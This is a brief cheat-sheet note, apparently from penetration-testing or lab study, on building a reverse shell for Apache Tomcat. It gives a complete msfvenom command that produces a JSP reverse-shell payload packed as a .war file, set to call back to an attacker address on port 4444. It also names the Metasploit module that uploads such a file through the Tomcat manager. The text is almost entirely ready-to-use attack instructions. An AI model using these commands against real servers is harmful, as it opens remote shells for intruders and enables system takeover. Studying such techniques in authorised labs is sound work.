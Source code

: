 # .war rev shell

---

.war reverse shell can be created with following command:

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.34 LPORT=4444 -f war > shell.war

TomCat Reverse Shell can be created by using the following metasploit module:

exploit/multi/http/tomcat_mgr_upload
